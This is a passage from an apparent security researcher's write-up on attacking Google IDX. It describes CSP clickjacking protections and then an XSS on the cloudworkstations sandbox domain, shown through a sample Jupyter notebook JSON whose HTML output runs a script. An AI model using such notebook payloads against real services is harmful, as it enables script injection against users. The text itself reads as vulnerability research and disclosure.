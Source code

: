 Even after I did confirmed and managed to build a working POC for Google IDX we still need to make it reproducible in default case as for testing locally I had disabled clickjacking protections which are enforced from the CSP

This is where Sreeram's xss comes into play

### XSS on `*.cloudworkstations.googleusercontent.com`

Jupyter Notebook comes to the rescue here,

Sample `*.ipynb` content that would allow XSS, applications supporting such files would often try to sanitize the markdown content or would render the html in a sandbox origin to avoid any xss issues.

````json
{
 "cells": [
  {
   "cell_type": "code",
   "execution_count": 0,
   "id": "37f81a85",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/html": [
       "<script>console.log('XSS in : '+ window.origin)</script>"
      ],
      "text/plain": []
     },
     "metadata": {},
     "output_type": "display_data"
    }
   ],
   "source": []
  }
 ]
 }
````

In case IDX they are using a sandbox domain to render this <https://0dmducp84q2pdhnsc5mctm6dkrg5796rjm7g95rga4s028s2gn3i.cloudworkstations.googleusercontent.com>

![Pasted image 20250730075551.png](/tmp/cdn-images/Pasted%20image%2020250730075551.png)
<br/>